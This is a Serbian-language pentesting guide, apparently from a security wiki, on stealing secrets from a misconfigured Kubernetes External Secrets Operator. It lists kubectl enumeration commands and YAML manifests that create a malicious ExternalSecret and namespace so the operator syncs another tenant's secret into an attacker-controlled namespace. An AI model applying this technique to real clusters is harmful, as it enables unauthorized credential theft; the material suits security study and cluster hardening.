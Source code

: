 # External Secret Operator

**Originalni autor ove stranice je** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ova stranica daje nekoliko saveta o tome kako možete ukrasti tajne iz pogrešno konfigurisanog ESO-a ili aplikacije koja koristi ESO za sinhronizaciju svojih tajni.

## Odricanje od odgovornosti

Tehnika prikazana u nastavku može raditi samo kada su ispunjeni određeni uslovi. Na primer, zavisi od zahteva potrebnih da se tajna sinhronizuje na imenskom prostoru koji posedujete / koji je kompromitovan. Morate to sami da otkrijete.

## Preduslovi

1. Pristup u kubernetes / openshift klasteru sa administratorskim privilegijama na imenskom prostoru
2. Pristup za čitanje na najmanje ExternalSecret na nivou klastera
3. Otkrivanje da li su potrebne oznake / anotacije ili članstvo u grupi koje omogućavaju ESO-u da sinhronizuje vašu tajnu. Ako imate sreće, možete slobodno ukrasti bilo koju definisanu tajnu.

### Prikupljanje informacija o postojećem ClusterSecretStore-u

Pretpostavljajući da imate korisnika koji ima dovoljno prava da pročita ovaj resurs; počnite tako što ćete prvo nabrojati postojeće _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeracija

Pretpostavimo da ste pronašli ClusterSecretStore nazvan _**mystore**_. Nastavite sa enumeracijom njegovog povezanog externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ovaj resurs je ograničen na prostor imena, tako da, osim ako već ne znate koje ime prostora da tražite, dodajte opciju -A da biste pretražili sve prostore imena._

Trebalo bi da dobijete listu definisanih externalsecret. Pretpostavimo da ste pronašli externalsecret objekat pod nazivom _**mysecret**_ definisan i korišćen od strane prostora imena _**mynamespace**_. Prikupite još malo informacija o tome kakvu vrstu tajne sadrži.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Sastavljanje delova

Odavde možete dobiti ime jednog ili više imena tajni (kao što je definisano u resursu Secret). Dobićete izlaz sličan:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Do sada smo dobili:

- Ime ClusterSecretStore
- Ime ExternalSecret
- Ime tajne

Sada kada imamo sve što nam je potrebno, možete kreirati ExternalSecret (i eventualno zakrpititi/kreirati novi Namespace kako biste ispunili preduslove potrebne za sinhronizaciju vaše nove tajne):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
После неколико минута, ако су услови синхронизације испуњени, требало би да можете да видите процурели тајни кључ унутар вашег имена простора.
```sh
kubectl get secret leaked_secret -o yaml
```
## Reference

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
